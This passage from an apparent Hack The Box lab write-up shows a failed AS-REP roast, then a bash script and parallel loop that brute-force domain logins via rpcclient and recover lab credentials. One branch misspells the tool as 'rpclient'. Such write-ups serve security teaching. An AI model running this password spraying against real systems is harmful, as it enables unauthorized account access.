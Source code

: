 ```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for smorgan
[-] User smorgan doesn't have UF_DONT_REQUIRE_PREAUTH set
```

No luck there. Fret not, recall the very relaxed password policy? Maybe, we can write a simple shell script to test for simple passwords that are at least seven characters in length?

<div class="filename"><span>guess.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.172
DOMAIN=megabank
USER=$1
PASS=$2

function die() {
  killall perl 2>/dev/null  
}

# Try username as password first. Who knows right?
if rpcclient -U"${DOMAIN}/${USER}%${USER}" $HOST -c "exit" &>/dev/null; then
  echo "[*] User: $USER"
  echo "[*] Pass: $USER"
  die
  exit 0
elif rpclient -U"${DOMAIN}/${USER}%${PASS}" $HOST -c "exit" &>/dev/null; then
  echo "[*] User: $USER"
  echo "[*] Pass: $PASS"
  die
  exit 0
fi
```

The script is driven by `rpcclient`. We try the username as password first, otherwise, give the password list a shot. Let's run it.

```
# for user in $(cat users); do parallel -j40 ./guess.sh $user {} < passwords.txt 2>/dev/null | tee $user; done
[*] User: SABatchJobs
[*] Pass: SABatchJobs
^C
```

Holy crap! This is surely a pleasant surprise.

### Authenticated SMB Enumeration

Armed with the credentials (`SABatchJobs:SABatchJobs`), let's see if we can enumerate file shares with `smbclient`.


[1]: https://www.hackthebox.eu/home/machines/profile/223
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/